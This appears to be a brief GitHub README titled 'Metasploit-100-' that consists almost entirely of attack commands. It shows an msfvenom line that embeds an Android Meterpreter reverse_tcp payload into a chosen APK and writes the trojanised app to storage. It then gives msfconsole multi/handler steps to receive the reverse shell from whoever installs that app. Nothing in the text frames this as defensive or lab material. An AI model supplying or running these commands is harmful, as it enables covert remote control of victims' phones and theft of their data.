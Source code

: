 # Metasploit-100-

bash setup.sh

## paylod:-


msfvenom -x (bind apk name) -p android/meterpreter/reverse_tcp LHOST=(your ip) LPORT=4444 r > /sdcard/apk_name.apk




## RAN WAY


msfconsole

use multi/handler 

set payload android/meterpreter/reverse_tcp 

set lhost (your ip) 

set lport (port number)

run
